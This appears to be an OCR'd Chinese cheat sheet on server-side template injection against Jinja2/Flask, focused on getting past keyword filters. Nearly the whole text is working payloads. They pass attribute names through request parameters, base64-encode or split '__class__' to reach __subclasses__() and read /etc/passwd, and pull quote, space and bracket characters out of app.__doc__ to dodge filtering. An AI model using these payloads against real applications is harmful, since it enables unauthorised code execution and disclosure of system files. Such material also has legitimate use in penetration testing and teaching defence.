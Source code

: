 > 



```
{{''[request.args.t1]}}&amp;t1=__class__
#若request.args改为request.values则利用post的方式进行传参

{{''[request['args']['t1']]}}&amp;t1=__class__
#若使用POST，args换成form即可

```

#### 关键词过滤

> 



```
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}

```

> 



```
{{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()}}

```

> 



```
{% set a=dict(o=x,s=xx)|join %}

```

> 



```
{% set quote = ((app.__doc__|list()).pop(337)|string())%}
类似的还有
{% set sp = ((app.__doc__|list()).pop(102)|string)%}
{% set pt = ((app.__doc__|list()).pop(320)|string)%}
{% set lb = ((app.__doc__|list()).pop(264)|string)%}
{% set rb = ((app.__doc__|list()).pop(286)|string)%}
{% set slas = (eki.__init__.__globals__.__repr__()|list()).pop(349)%}
{% set xhx = (({ }|select()|string()|list()).pop(24)|string())%}

```

> 


